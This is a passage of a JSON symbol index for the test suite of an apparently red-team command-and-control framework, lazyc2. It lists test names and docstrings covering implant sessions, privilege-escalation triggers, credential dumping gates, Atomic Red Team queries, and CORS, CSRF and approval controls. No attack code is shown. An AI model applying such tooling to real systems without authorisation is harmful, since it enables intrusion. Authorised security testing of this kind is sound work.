508, "name": "test_bridge_phase_mapper", "signature": "def test_bridge_phase_mapper()"}, {"kind": "function", "line": 522, "name": "test_bridge_full_catalog_count", "signature": "def test_bridge_full_catalog_count()"}, {"kind": "function", "line": 529, "name": "test_bridge_all_phases_populated", "signature": "def test_bridge_all_phases_populated()"}, {"kind": "function", "line": 550, "name": "test_bridge_suggest_sequence", "signature": "def test_bridge_suggest_sequence()"}, {"kind": "function", "line": 561, "name": "test_bridge_tag_selector", "signature": "def test_bridge_tag_selector()"}, {"kind": "function", "line": 571, "name": "test_bridge_suggest_kerberos_phase", "signature": "def test_bridge_suggest_kerberos_phase()"}, {"kind": "function", "line": 579, "name": "test_bridge_suggest_windows_os", "signature": "def test_bridge_suggest_windows_os()"}, {"kind": "function", "line": 589, "name": "test_bridge_suggest_linux_os", "signature": "def test_bridge_suggest_linux_os()"}, {"kind": "function", "line": 599, "name": "test_bridge_catalog_summary_has_all_phases", "signature": "def test_bridge_catalog_summary_has_all_phases()"}, {"kind": "function", "line": 614, "name": "test_session_reader_empty", "signature": "def test_session_reader_empty(tmp_path)"}, {"kind": "function", "line": 625, "name": "test_session_reader_implant_csv", "signature": "def test_session_reader_implant_csv(tmp_path)"}, {"kind": "function", "line": 642, "name": "test_session_reader_privileged_sessions", "signature": "def test_session_reader_privileged_sessions(tmp_path)"}, {"kind": "function", "line": 663, "name": "test_session_reader_tasks", "signature": "def test_session_reader_tasks(tmp_path)"}, {"kind": "function", "line": 679, "name": "test_session_reader_discovered_hosts", "signature": "def test_session_reader_discovered_hosts(tmp_path)"}, {"kind": "function", "line": 688, "name": "test_session_reader_skips_non_implant_logs", "signature": "def test_session_reader_skips_non_implant_logs(tmp_path)"}, {"kind": "function", "line": 702, "name": "test_reactive_engine_av_detection", "signature": "def test_reactive_engine_av_detection()"}, {"kind": "function", "line": 717, "name": "test_reactive_engine_privesc_sudo", "signature": "def test_reactive_engine_privesc_sudo()"}, {"kind": "function", "line": 728, "name": "test_reactive_engine_credential_found", "signature": "def test_reactive_engine_credential_found()"}, {"kind": "function", "line": 737, "name": "test_reactive_engine_new_host", "signature": "def test_reactive_engine_new_host()"}, {"kind": "function", "line": 746, "name": "test_reactive_engine_shell_error", "signature": "def test_reactive_engine_shell_error()"}, {"kind": "function", "line": 755, "name": "test_reactive_engine_no_signal", "signature": "def test_reactive_engine_no_signal()"}, {"kind": "function", "line": 766, "name": "test_reactive_engine_priority_ordering", "signature": "def test_reactive_engine_priority_ordering()"}, {"kind": "function", "line": 778, "name": "test_session_rag_init", "signature": "def test_session_rag_init()"}, {"kind": "function", "line": 785, "name": "test_session_rag_stats", "signature": "def test_session_rag_stats()"}, {"kind": "function", "line": 796, "name": "test_session_rag_chunk_text", "signature": "def test_session_rag_chunk_text()"}, {"kind": "function", "line": 807, "name": "test_session_rag_index_new", "signature": "def test_session_rag_index_new()"}, {"kind": "function", "line": 817, "name": "test_session_rag_query_returns_list", "signature": "def test_session_rag_query_returns_list()"}, {"kind": "function", "line": 828, "name": "test_session_rag_context_for_step", "signature": "def test_session_rag_context_for_step()"}, {"kind": "function", "line": 840, "name": "test_threat_model_builder_init", "signature": "def test_threat_model_builder_init()"}, {"kind": "function", "line": 847, "name": "test_threat_model_build", "signature": "def test_threat_model_build()"}, {"kind": "function", "line": 860, "name": "test_threat_model_summary_fields", "signature": "def test_threat_model_summary_fields()"}, {"kind": "function", "line": 872, "name": "test_threat_model_ttps_have_required_fields", "signature": "def test_threat_model_ttps_have_required_fields()"}, {"kind": "function", "line": 885, "name": "test_threat_model_detection_rules_structure", "signature": "def test_threat_model_detection_rules_structure()"}, {"kind": "function", "line": 898, "name": "test_threat_model_load_after_build", "signature": "def test_threat_model_load_after_build()"}, {"kind": "function", "line": 908, "name": "test_threat_model_ioc_types", "signature": "def test_threat_model_ioc_types()"}, {"doc": "Keyword fallback must survive a save/load cycle.", "kind": "function", "line": 919, "name": "test_session_rag_fallback_persistence", "signature": "def test_session_rag_fallback_persistence(tmp_path)"}, {"doc": "Adding the same doc_id twice must not duplicate the entry.", "kind": "function", "line": 939, "name": "test_session_rag_fallback_dedup", "signature": "def test_session_rag_fallback_dedup()"}, {"doc": "Ring-buffer must cap at MAX_FALLBACK_DOCS and evict oldest.", "kind": "function", "line": 949, "name": "test_session_rag_fallback_ring_buffer", "signature": "def test_session_rag_fallback_ring_buffer()"}, {"kind": "function", "line": 971, "name": "test_threat_model_has_purple_team", "signature": "def test_threat_model_has_purple_team()"}, {"kind": "function", "line": 980, "name": "test_threat_model_purple_team_structure", "signature": "def test_threat_model_purple_team_structure()"}, {"kind": "function", "line": 996, "name": "test_threat_model_purple_gaps_sorted_first", "signature": "def test_threat_model_purple_gaps_sorted_first()"}, {"kind": "function", "line": 1013, "name": "test_threat_model_purple_coverage_field", "signature": "def test_threat_model_purple_coverage_field()"}, {"kind": "function", "line": 1028, "name": "test_atomic_enricher_builds", "signature": "def test_atomic_enricher_builds()"}, {"kind": "function", "line": 1045, "name": "test_atomic_enricher_complexity_values", "signature": "def test_atomic_enricher_complexity_values()"}, {"kind": "function", "line": 1055, "name": "test_atomic_enricher_scope_values", "signature": "def test_atomic_enricher_scope_values()"}, {"kind": "function", "line": 1065, "name": "test_atomic_query_keyword", "signature": "def test_atomic_query_keyword()"}, {"kind": "function", "line": 1081, "name": "test_atomic_query_mitre_prefix", "signature": "def test_atomic_query_mitre_prefix()"}, {"kind": "function", "line": 1092, "name": "test_atomic_query_platform_filter", "signature": "def test_atomic_query_platform_filter()"}, {"kind": "function", "line": 1104, "name": "test_atomic_query_no_prereqs", "signature": "def test_atomic_query_no_prereqs()"}, {"kind": "function", "line": 1115, "name": "test_atomic_query_include_command", "signature": "def test_atomic_query_include_command()"}, {"doc": "Impossible filter combination returns empty list gracefully.", "kind": "function", "line": 1127, "name": "test_atomic_query_empty_returns_list", "signature": "def test_atomic_query_empty_returns_list()"}, {"kind": "function", "line": 1139, "name": "test_parquet_db_query_atomic", "signature": "def test_parquet_db_query_atomic()"}, {"kind": "function", "line": 1150, "name": "test_session_rag_index_parquet_sources", "signature": "def test_session_rag_index_parquet_sources()"}, {"kind": "class", "line": 295, "name": "_User", "signature": "class _User(UserMixin)"}, {"kind": "function", "line": 305, "name": "load_user", "signature": "def load_user(user_id)"}, {"kind": "method", "line": 296, "name": "__init__", "signature": "def __init__(self, uid)"}]}, {"doc": "BDD behavior scenarios for the CORS policy contract.  These scenarios describe the user-visible behavior of the CORS policy in plain language, then exercise it. They are intentionally distinct from the unit tests in :mod:`tests.test_cors_policy` so the contract has both a fine-grained check and a coarse-grained one.", "id": "tests/test_cors_behavior.py", "kind": "module", "label": "test_cors_behavior.py", "language": "py", "sha256": "ddcdea806db6a4c9", "symbol_count": 4, "symbols": [{"doc": "Given a PROD env with a wildcard, when origins are resolved, then raise.", "kind": "function", "line": 16, "name": "test_given_wildcard_in_prod_when_resolving_then_raises", "signature": "def test_given_wildcard_in_prod_when_resolving_then_raises()"}, {"doc": "Given DEV env with empty allowlist, when resolved, then http+https://lhost are used.", "kind": "function", "line": 23, "name": "test_given_empty_in_dev_when_resolving_then_falls_back_to_lhost", "signature": "def test_given_empty_in_dev_when_resolving_then_falls_back_to_lhost()"}, {"doc": "Given an origin not in the allowlist, when checked, then it is denied.", "kind": "function", "line": 31, "name": "test_given_unknown_origin_when_handshake_then_denied", "signature": "def test_given_unknown_origin_when_handshake_then_denied()"}, {"doc": "Given an origin in the allowlist, when checked, then it is allowed.", "kind": "function", "line": 41, "name": "test_given_matching_origin_when_handshake_then_allowed", "signature": "def test_given_matching_origin_when_handshake_then_allowed()"}]}, {"doc": "TDD tests for the CORS policy contract.  Contract: ``lazyc2.security.cors.CorsPolicy.resolve_origins(config)`` returns the allowlist of origins the C2 web layer is willing to serve.  Invariants under test:  1. Wildcard ``*`` is rejected outright (never expose Socket.IO to every origin). 2. In ``PROD`` an empty allowlist raises ``CorsConfigError``. 3. In ``DEV`` an empty allowlist falls back to ``https://{lhost}``. 4. CSV strings are split, trimmed, and empty entries skipped. 5. ``\"*\"`` entries inside a CSV are dropped, not propagated. 6. ``is_allowed(origin)`` accepts exact matches and denies everything else. 7. ``is_allowed`` tolerates a missing port when comparing hostnames.", "id": "tests/test_cors_policy.py", "kind": "module", "label": "test_cors_policy.py", "language": "py", "sha256": "7c8ed3039043fec9", "symbol_count": 17, "symbols": [{"doc": "Verify origin allowlist derivation from configuration.", "kind": "class", "line": 24, "name": "TestResolveOrigins", "signature": "class TestResolveOrigins"}, {"doc": "Verify the runtime origin check.", "kind": "class", "line": 78, "name": "TestIsAllowed", "signature": "class TestIsAllowed"}, {"doc": "Verify the integration helper used by ``lazyc2.py``.", "kind": "class", "line": 106, "name": "TestFlaskSocketIOIntegration", "signature": "class TestFlaskSocketIOIntegration"}, {"kind": "method", "line": 27, "name": "test_wildcard_is_rejected", "signature": "def test_wildcard_is_rejected(self)"}, {"kind": "method", "line": 31, "name": "test_wildcard_in_csv_is_dropped", "signature": "def test_wildcard_in_csv_is_dropped(self)"}, {"kind": "method", "line": 42, "name": "test_prod_empty_allowlist_raises", "signature": "def test_prod_empty_allowlist_raises(self)"}, {"kind": "method", "line": 46, "name": "test_dev_empty_allowlist_falls_back_to_lhost", "signature": "def test_dev_empty_allowlist_falls_back_to_lhost(self)"}, {"kind": "method", "line": 52, "name": "test_csv_is_split_and_trimmed", "signature": "def test_csv_is_split_and_trimmed(self)"}, {"kind": "method", "line": 61, "name": "test_list_input_is_preserved", "signature": "def test_list_input_is_preserved(self)"}, {"kind": "method", "line": 69, "name": "test_empty_entries_in_csv_are_skipped", "signature": "def test_empty_entries_in_csv_are_skipped(self)"}, {"kind": "method", "line": 81, "name": "test_exact_match_is_allowed", "signature": "def test_exact_match_is_allowed(self)"}, {"kind": "method", "line": 85, "name": "test_non_matching_origin_is_denied", "signature": "def test_non_matching_origin_is_denied(self)"}, {"kind": "method", "line": 89, "name": "test_empty_origin_is_denied", "signature": "def test_empty_origin_is_denied(self)"}, {"kind": "method", "line": 93, "name": "test_hostname_match_ignores_port", "signature": "def test_hostname_match_ignores_port(self)"}, {"kind": "method", "line": 101, "name": "test_scheme_mismatch_is_denied", "signature": "def test_scheme_mismatch_is_denied(self)"}, {"kind": "method", "line": 109, "name": "test_origins_for_socketio", "signature": "def test_origins_for_socketio(self)"}, {"kind": "method", "line": 119, "name": "test_origins_for_socketio_dev_fallback", "signature": "def test_origins_for_socketio_dev_fallback(self)"}]}, {"doc": "Regression tests for the Socket.IO origin allowlist.  The original wire-up broke xterm.js because flask-socketio does an exact match between the request ``Origin`` header and the ``cors_allowed_origins`` list. The browser sends ``https://127.0.0.1:5000`` (with port) but the list only had ``https://127.0.0.1`` (no port), so the WebSocket upgrade was rejected with HTTP 400.  This test ensures the policy returns the allowlist expanded with the common C2 ports for the configured lhost so the upgrade succeeds.", "id": "tests/test_cors_socketio_regression.py", "kind": "module", "label": "test_cors_socketio_regression.py", "language": "py", "sha256": "c8bd00e03d1da95b", "symbol_count": 8, "symbols": [{"doc": "Verify the list fed to ``SocketIO(cors_allowed_origins=...)``.", "kind": "class", "line": 20, "name": "TestOriginsForSocketIO", "signature": "class TestOriginsForSocketIO"}, {"kind": "method", "line": 23, "name": "test_dev_empty_includes_lhost_with_common_ports", "signature": "def test_dev_empty_includes_lhost_with_common_ports(self)"}, {"kind": "method", "line": 29, "name": "test_dev_empty_includes_http_and_https", "signature": "def test_dev_empty_includes_http_and_https(self)"}, {"kind": "method", "line": 35, "name": "test_dev_empty_includes_localhost_alias", "signature": "def test_dev_empty_includes_localhost_alias(self)"}, {"kind": "method", "line": 40, "name": "test_explicit_origins_kept_with_port_appended", "signature": "def test_explicit_origins_kept_with_port_appended(self)"}, {"kind": "method", "line": 51, "name": "test_explicit_origins_deduped", "signature": "def test_explicit_origins_deduped(self)"}, {"kind": "method", "line": 61, "name": "test_prod_raises_when_empty", "signature": "def test_prod_raises_when_empty(self)"}, {"kind": "method", "line": 65, "name": "test_wildcard_rejected", "signature": "def test_wildcard_rejected(self)"}]}, {"doc": "Tests for core/credential_vault.py", "id": "tests/test_credential_vault.py", "kind": "module", "label": "test_credential_vault.py", "language": "py", "sha256": "09ddc65e8a611feb", "symbol_count": 16, "symbols": [{"kind": "class", "line": 18, "name": "TestCheckDefaults", "signature": "class TestCheckDefaults"}, {"kind": "class", "line": 56, "name": "TestSealUnseal", "signature": "class TestSealUnseal"}, {"kind": "class", "line": 116, "name": "TestSecureDefaults", "signature": "class TestSecureDefaults"}, {"kind": "method", "line": 19, "name": "test_default_values_detected", "signature": "def test_default_values_detected(self)"}, {"kind": "method", "line": 24, "name": "test_clean_payload_no_warnings", "signature": "def test_clean_payload_no_warnings(self)"}, {"kind": "method", "line": 39, "name": "test_empty_keys_flagged", "signature": "def test_empty_keys_flagged(self)"}, {"kind": "method", "line": 44, "name": "test_changeme_variants", "signature": "def test_changeme_variants(self)"}, {"kind": "method", "line": 57, "name": "test_roundtrip", "signature": "def test_roundtrip(self)"}, {"kind": "method", "line": 64, "name": "test_empty_string_passthrough", "signature": "def test_empty_string_passthrough(self)"}, {"kind": "method", "line": 68, "name": "test_plaintext_passthrough", "signature": "def test_plaintext_passthrough(self)"}, {"kind": "method", "line": 72, "name": "test_different_key_fails", "signature": "def test_different_key_fails(self)"}, {"kind": "method", "line": 80, "name": "test_payload_roundtrip", "signature": "def test_payload_roundtrip(self)"}, {"kind": "method", "line": 98, "name": "test_sensitive_keys_encrypted", "signature": "def test_sensitive_keys_encrypted(self)"}, {"kind": "method", "line": 107, "name": "test_non_sensitive_keys_untouched", "signature": "def test_non_sensitive_keys_untouched(self)"}, {"kind": "method", "line": 117, "name": "test_generates_random_values", "signature": "def test_generates_random_values(self)"}, {"kind": "method", "line": 124, "name": "test_api_key_is_longer", "signature": "def test_api_key_is_longer(self)"}]}, {"doc": "Tests for CredMigratedCommandSet._rotate_existing_credentials.  The helper backs up ``sessions/credentials.txt`` before ``createcredentials`` overwrites it. It must tolerate the file vanishing between the existence check and the rename (a concurrent CLI + daemon writer), an empty or colon-less first line, and rename failures, instead of raising ``FileNotFoundError`` and aborting the command as it did before.  The method moved from ``LazyOwnShell`` to ``CredMigratedCommandSet`` in the monolith split. It does not use ``self``, so it is exercised as an unbound function with ``None`` as the instance to avoid the cost of constructing the full shell.", "id": "tests/test_credentials_rotation.py", "kind": "module", "label": "test_credentials_rotation.py", "language": "py", "sha256": "66478cf37764e62e", "symbol_count": 9, "symbols": [{"kind": "function", "line": 32, "name": "in_tmp_sessions", "signature": "def in_tmp_sessions(tmp_path, monkeypatch)"}, {"kind": "function", "line": 38, "name": "test_missing_file_returns_none", "signature": "def test_missing_file_returns_none(in_tmp_sessions)"}, {"kind": "function", "line": 42, "name": "test_existing_file_is_backed_up_by_username", "signature": "def test_existing_file_is_backed_up_by_username(in_tmp_sessions)"}, {"kind": "function", "line": 51, "name": "test_empty_file_uses_fallback_username", "signature": "def test_empty_file_uses_fallback_username(in_tmp_sessions)"}, {"kind": "function", "line": 58, "name": "test_line_without_colon_uses_whole_token", "signature": "def test_line_without_colon_uses_whole_token(in_tmp_sessions)"}, {"kind": "function", "line": 65, "name": "test_race_on_rename_is_swallowed", "signature": "def test_race_on_rename_is_swallowed(in_tmp_sessions, monkeypatch)"}, {"kind": "function", "line": 76, "name": "test_oserror_on_rename_is_swallowed", "signature": "def test_oserror_on_rename_is_swallowed(in_tmp_sessions, monkeypatch)"}, {"kind": "function", "line": 69, "name": "_boom", "signature": "def _boom()"}, {"kind": "function", "line": 80, "name": "_boom", "signature": "def _boom()"}]}, {"doc": "BDD behavior scenarios for the CSRF contract.", "id": "tests/test_csrf_behavior.py", "kind": "module", "label": "test_csrf_behavior.py", "language": "py", "sha256": "903f3ea8ea0cb506", "symbol_count": 6, "symbols": [{"kind": "class", "line": 8, "name": "_Request", "signature": "class _Request"}, {"doc": "Given an authenticated operator POST without a token, the gate denies.", "kind": "function", "line": 16, "name": "test_given_authenticated_post_without_token_then_rejected", "signature": "def test_given_authenticated_post_without_token_then_rejected()"}, {"doc": "Given a valid token echoed back, the gate allows the mutation.", "kind": "function", "line": 23, "name": "test_given_authenticated_post_with_valid_token_then_allowed", "signature": "def test_given_authenticated_post_with_valid_token_then_allowed()"}, {"doc": "Given an exempt path (login), the gate allows without a token.", "kind": "function", "line": 35, "name": "test_given_login_path_without_token_then_allowed", "signature": "def test_given_login_path_without_token_then_allowed()"}, {"doc": "Given a safe HTTP method, the gate always allows regardless of token.", "kind": "function", "line": 42, "name": "test_given_get_request_then_always_allowed", "signature": "def test_given_get_request_then_always_allowed()"}, {"kind": "method", "line": 9, "name": "__init__", "signature": "def __init__(self, method, path, headers, form)"}]}, {"doc": "TDD tests for the CSRF policy contract.  Contract: ``lazyc2.security.csrf.CSRFPolicy`` issues per-session tokens that must be echoed back by the client on every mutating request, except for configured exemptions (login, logout, beacon endpoints).  Invariants under test:  1. ``issue(session_id)`` returns a 32-byte URL-safe token. 2. The token is bound to the session id: same session -> same token. 3. ``validate(session_id, token)`` returns ``True`` only on a constant-time match between the stored and the candidate token. 4. ``validate`` returns ``False`` on missing, empty, or wrong token. 5. ``validate`` returns ``False`` for an unknown session id. 6. The exempt path set is honoured: an exempt path on a session without a token still passes. 7. ``extract_header`` and ``extract_form`` parse tokens from request-shaped objects.", "id": "tests/test_csrf_policy.py", "kind": "module", "label": "test_csrf_policy.py", "language": "py", "sha256": "f9faaaecaf0f9f1b", "symbol_count": 24, "symbols": [{"kind": "class", "line": 26, "name": "_FakeRequest", "signature": "class _FakeRequest"}, {"doc": "Verify the issuer contract.", "kind": "class", "line": 34, "name": "TestTokenIssuance", "signature": "class TestTokenIssuance"}, {"doc": "Verify the validator contract.", "kind": "class", "line": 56, "name": "TestTokenValidation", "signature": "class TestTokenValidation"}, {"doc": "Verify that configured paths bypass the check.", "kind": "class", "line": 81, "name": "TestExemptions", "signature": "class TestExemptions"}, {"doc": "Verify the request-shaped helper.", "kind": "class", "line": 96, "name": "TestRequestExtraction", "signature": "class TestRequestExtraction"}, {"doc": "Verify the full request check combining exemptions and validation.", "kind": "class", "line": 123, "name": "TestCheckRequest", "signature": "class TestCheckRequest"}, {"kind": "method", "line": 27, "name": "__init__", "signature": "def __init__(self, headers, form, path, method)"}, {"kind": "method", "line": 37, "name": "test_issue_returns_string", "signature": "def test_issue_returns_string(self)"}, {"kind": "method", "line": 43, "name": "test_issue_is_deterministic_for_same_session", "signature": "def test_issue_is_deterministic_for_same_session(self)"}, {"kind": "method", "line": 49, "name": "test_issue_is_unique_across_sessions", "signature": "def test_issue_is_unique_across_sessions(self)"}, {"kind": "method", "line": 59, "name": "test_valid_token_passes", "signature": "def test_valid_token_passes(self)"}, {"kind": "method", "line": 64, "name": "test_missing_token_fails", "signature": "def test_missing_token_fails(self)"}, {"kind": "method", "line": 70, "name": "test_unknown_session_fails", "signature": "def test_unknown_session_fails(self)"}, {"kind": "method", "line": 75, "name": "test_wrong_token_fails", "signature": "def test_wrong_token_fails(self)"}, {"kind": "method", "line": 84, "name": "test_exempt_path_passes_without_token", "signature": "def test_exempt_path_passes_without_token(self)"}, {"kind": "method", "line": 90, "name": "test_non_exempt_path_fails_check", "signature": "def test_non_exempt_path_fails_check(self)"}, {"kind": "method", "line": 99, "name": "test_extract_header", "signature": "def test_extract_header(self)"}, {"kind": "method", "line": 104, "name": "test_extract_form", "signature": "def test_extract_form(self)"}, {"kind": "method", "line": 109, "name": "test_extract_header_takes_precedence", "signature": "def test_extract_header_takes_precedence(self)"}, {"kind": "method", "line": 117, "name": "test_extract_returns_none_when_missing", "signature": "def test_extract_returns_none_when_missing(self)"}, {"kind": "method", "line": 126, "name": "test_safe_methods_bypass", "signature": "def test_safe_methods_bypass(self)"}, {"kind": "method", "line": 131, "name": "test_mutating_without_token_fails", "signature": "def test_mutating_without_token_fails(self)"}, {"kind": "method", "line": 136, "name": "test_mutating_with_valid_token_passes", "signature": "def test_mutating_with_valid_token_passes(self)"}, {"kind": "method", "line": 146, "name": "test_exempt_path_with_no_token_still_passes", "signature": "def test_exempt_path_with_no_token_still_passes(self)"}]}, {"doc": "Unit tests for skills.daemon_control.  Coverage:  * :class:`ControlState` and :class:`PendingAction` round-trip (to_dict / from_dict, malformed input). * :class:`DaemonControl` mode transitions, veto add / remove / clear, focus replacement, atomic file persistence. * Approval state machine: propose / decide / consume, TTL expiry. * :func:`wait_for_decision` and :func:`wait_until_unpaused` honour injectable clock and sleep functions for deterministic testing.", "id": "tests/test_daemon_control.py", "kind": "module", "label": "test_daemon_control.py", "language": "py", "sha256": "50f96115a012fe4d", "symbol_count": 29, "symbols": [{"kind": "function", "line": 46, "name": "sessions_dir", "signature": "def sessions_dir(tmp_path)"}, {"kind": "function", "line": 52, "name": "test_default_state_roundtrip", "signature": "def test_default_state_roundtrip(sessions_dir)"}, {"kind": "function", "line": 63, "name": "test_set_mode_persists_and_normalises_invalid", "signature": "def test_set_mode_persists_and_normalises_invalid(sessions_dir)"}, {"kind": "function", "line": 74, "name": "test_state_from_dict_sanitises_unknown_mode", "signature": "def test_state_from_dict_sanitises_unknown_mode()"}, {"kind": "function", "line": 80, "name": "test_state_from_dict_preserves_pending", "signature": "def test_state_from_dict_preserves_pending()"}, {"kind": "function", "line": 102, "name": "test_pause_resume_round_trip", "signature": "def test_pause_resume_round_trip(sessions_dir)"}, {"kind": "function", "line": 112, "name": "test_add_remove_clear_veto", "signature": "def test_add_remove_clear_veto(sessions_dir)"}, {"kind": "function", "line": 128, "name": "test_add_veto_rejects_empty_token", "signature": "def test_add_veto_rejects_empty_token(sessions_dir)"}, {"kind": "function", "line": 135, "name": "test_is_vetoed_uses_first_token", "signature": "def test_is_vetoed_uses_first_token(sessions_dir)"}, {"kind": "function", "line": 143, "name": "test_set_focus_replaces_list", "signature": "def test_set_focus_replaces_list(sessions_dir)"}, {"kind": "function", "line": 153, "name": "test_target_in_focus_defaults_to_true_when_no_focus", "signature": "def test_target_in_focus_defaults_to_true_when_no_focus(sessions_dir)"}, {"kind": "function", "line": 163, "name": "test_propose_decide_consume_cycle", "signature": "def test_propose_decide_consume_cycle(sessions_dir)"}, {"kind": "function", "line": 183, "name": "test_decide_rejects_invalid_decision", "signature": "def test_decide_rejects_invalid_decision(sessions_dir)"}, {"kind": "function", "line": 191, "name": "test_decide_with_unknown_id_returns_none", "signature": "def test_decide_with_unknown_id_returns_none(sessions_dir)"}, {"kind": "function", "line": 198, "name": "test_consume_expires_overdue_pending", "signature": "def test_consume_expires_overdue_pending(sessions_dir)"}, {"kind": "function", "line": 209, "name": "test_pending_action_is_expired_only_when_still_pending", "signature": "def test_pending_action_is_expired_only_when_still_pending()"}, {"kind": "function", "line": 221, "name": "test_wait_for_decision_returns_approved", "signature": "def test_wait_for_decision_returns_approved(sessions_dir)"}, {"kind": "function", "line": 237, "name": "test_wait_for_decision_expires_after_ttl", "signature": "def test_wait_for_decision_expires_after_ttl(sessions_dir)"}, {"kind": "function", "line": 252, "name": "test_wait_for_decision_polls_until_decided", "signature": "def test_wait_for_decision_polls_until_decided(sessions_dir)"}, {"kind": "function", "line": 274, "name": "test_wait_until_unpaused_returns_true_when_already_running", "signature": "def test_wait_until_unpaused_returns_true_when_already_running(sessions_dir)"}, {"kind": "function", "line": 288, "name": "test_wait_until_unpaused_returns_false_after_max_wait", "signature": "def test_wait_until_unpaused_returns_false_after_max_wait(sessions_dir)"}, {"kind": "function", "line": 310, "name": "test_wait_until_unpaused_returns_true_after_resume", "signature": "def test_wait_until_unpaused_returns_true_after_resume(sessions_dir)"}, {"kind": "function", "line": 331, "name": "test_save_writes_atomic_file_with_restricted_mode", "signature": "def test_save_writes_atomic_file_with_restricted_mode(sessions_dir)"}, {"kind": "function", "line": 342, "name": "test_load_returns_defaults_on_invalid_json", "signature": "def test_load_returns_defaults_on_invalid_json(sessions_dir)"}, {"kind": "function", "line": 352, "name": "test_concurrent_save_serialised_by_lock", "signature": "def test_concurrent_save_serialised_by_lock(sessions_dir)"}, {"kind": "function", "line": 257, "name": "_sleep", "signature": "def _sleep(_seconds)"}, {"kind": "function", "line": 293, "name": "_now", "signature": "def _now()"}, {"kind": "function", "line": 296, "name": "_sleep", "signature": "def _sleep(_seconds)"}, {"kind": "function", "line": 315, "name": "_sleep", "signature": "def _sleep(_seconds)"}]}, {"doc": "Daemon command set extraction tests.  SDD contract for the daemon cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/daemon_ctl.py``.  Stage B (active): the originals are deleted from ``misc_migrated.py`` and ``DaemonControlCommandSet`` subclasses ``LazyOwnCommandSet`` so ``cli.registry`` registers it on the shell. Tests assert active registration eligibility, command coverage, and absence of the methods in the source module.", "id": "tests/test_daemon_ctl_command_set.py", "kind": "module", "label": "test_daemon_ctl_command_set.py", "language": "py", "sha256": "ca29233bbc5905ef", "symbol_count": 9, "symbols": [{"kind": "function", "line": 28, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"doc": "Centralised constants for the daemon extraction suite.", "kind": "class", "line": 34, "name": "DaemonSuiteConfig", "signature": "class DaemonSuiteConfig"}, {"kind": "function", "line": 53, "name": "_methods_of", "signature": "def _methods_of(path, class_name)"}, {"kind": "function", "line": 65, "name": "test_target_is_active_command_set", "signature": "def test_target_is_active_command_set()"}, {"kind": "function", "line": 74, "name": "test_target_exposes_full_daemon_cluster", "signature": "def test_target_exposes_full_daemon_cluster()"}, {"kind": "function", "line": 81, "name": "test_target_phase_metadata", "signature": "def test_target_phase_metadata()"}, {"kind": "function", "line": 87, "name": "test_source_no_longer_defines_cluster", "signature": "def test_source_no_longer_defines_cluster()"}, {"kind": "function", "line": 93, "name": "test_registry_registers_target", "signature": "def test_registry_registers_target()"}, {"kind": "function", "line": 100, "name": "test_no_command_collisions_with_source", "signature": "def test_no_command_collisions_with_source()"}]}, {"doc": "BDD tests for the integrated autonomous loop in the daemon.  Given the existing _run_objective flow with an injected planner, world model and runner, when the frontier empties, a command repeats, the goal is proven, or the gate holds, then the loop stops or skips instead of running blind.", "id": "tests/test_daemon_loop.py", "kind": "module", "label": "test_daemon_loop.py", "language": "py", "sha256": "1a31c28fe8c62294", "symbol_count": 30, "symbols": [{"kind": "class", "line": 24, "name": "_Phase", "signature": "class _Phase"}, {"kind": "class", "line": 30, "name": "_World", "signature": "class _World"}, {"kind": "class", "line": 50, "name": "_Parser", "signature": "class _Parser"}, {"kind": "class", "line": 58, "name": "_Strategy", "signature": "class _Strategy"}, {"kind": "class", "line": 75, "name": "_EmptyPlanner", "signature": "class _EmptyPlanner"}, {"doc": "Point sessions, runner, OS probe and database at fakes.", "kind": "function", "line": 82, "name": "_patch", "signature": "def _patch(monkeypatch, tmp_path)"}, {"doc": "Read the emitted event stream.", "kind": "function", "line": 104, "name": "_events", "signature": "def _events(tmp_path)"}, {"doc": "Run one objective with fakes and return step results.", "kind": "function", "line": 112, "name": "_run", "signature": "def _run(monkeypatch, tmp_path, objective, commands, planner, world, max_steps)"}, {"doc": "BDD: empty refills with unchanged facts end the objective.", "kind": "function", "line": 126, "name": "test_loop_ends_when_no_new_direction", "signature": "def test_loop_ends_when_no_new_direction(monkeypatch, tmp_path)"}, {"doc": "BDD: a gated credential-dumping command never executes.", "kind": "function", "line": 134, "name": "test_loop_skips_unapproved_gated_command", "signature": "def test_loop_skips_unapproved_gated_command(monkeypatch, tmp_path)"}, {"doc": "BDD: terminal world state matching the goal ends the loop.", "kind": "function", "line": 155, "name": "test_loop_stops_when_objective_proven", "signature": "def test_loop_stops_when_objective_proven(monkeypatch, tmp_path)"}, {"doc": "BDD: an identical successful command never runs twice.", "kind": "function", "line": 164, "name": "test_loop_skips_duplicate_success", "signature": "def test_loop_skips_duplicate_success(monkeypatch, tmp_path)"}, {"doc": "BDD: compound goals split into verifiable objectives.", "kind": "function", "line": 197, "name": "test_decompose_goal_splits_compound", "signature": "def test_decompose_goal_splits_compound(tmp_path)"}, {"doc": "BDD: marker wrap and strip isolate real command output.", "kind": "function", "line": 216, "name": "test_marker_helpers_extract_real_output", "signature": "def test_marker_helpers_extract_real_output()"}, {"doc": "Hold a phase value.", "kind": "method", "line": 25, "name": "__init__", "signature": "def __init__(self, value)"}, {"doc": "Hold a single host state for the target.", "kind": "method", "line": 31, "name": "__init__", "signature": "def __init__(self, state)"}, {"doc": "Return the recon phase.", "kind": "method", "line": 35, "name": "get_phase", "signature": "def get_phase(self)"}, {"doc": "Return hosts with the configured state.", "kind": "method", "line": 39, "name": "snapshot", "signature": "def snapshot(self)"}, {"doc": "Accept findings without effect.", "kind": "method", "line": 43, "name": "update_from_findings", "signature": "def update_from_findings(self, _findings)"}, {"doc": "Accept host updates without effect.", "kind": "method", "line": 46, "name": "update_host", "signature": "def update_host(self, _target)"}, {"doc": "Return an empty observation.", "kind": "method", "line": 51, "name": "parse", "signature": "def parse(self, _output, host, tool)"}, {"doc": "Cycle through canned commands.", "kind": "method", "line": 59, "name": "__init__", "signature": "def __init__(self, commands)"}, {"doc": "Return the next canned command as a planner-free decision.", "kind": "method", "line": 64, "name": "next_command", "signature": "def next_command(self, target, phase, services, os_hint)"}, {"doc": "Accept output without effect.", "kind": "method", "line": 70, "name": "register_output", "signature": "def register_output(self, _output, _command, platform, success)"}, {"doc": "Always report no candidates.", "kind": "method", "line": 76, "name": "plan", "signature": "def plan(self, _target, max_candidates)"}, {"kind": "function", "line": 90, "name": "_fake_os", "signature": "def _fake_os(_target, _loop)"}, {"kind": "function", "line": 98, "name": "_fake_get_db", "signature": "def _fake_get_db(db_path)"}, {"kind": "class", "line": 168, "name": "_RepeatPlanner", "signature": "class _RepeatPlanner"}, {"doc": 